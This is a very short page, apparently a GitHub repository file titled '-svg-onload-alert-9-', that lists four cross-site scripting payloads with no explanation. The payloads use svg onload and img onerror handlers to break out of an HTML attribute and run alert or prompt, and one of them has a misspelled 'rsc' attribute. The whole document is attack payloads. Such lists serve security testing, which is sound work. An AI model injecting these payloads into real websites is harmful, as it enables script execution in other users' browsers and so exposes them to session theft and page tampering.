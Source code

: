 # -svg-onload-alert-9-
">&lt;svg/onload=alert(9)>&lt;"
"><svg/onload=alert(9)><"
"><img rsc=x {onerror=prompt``}><"
"><img src=x onerror=alert(9)><"
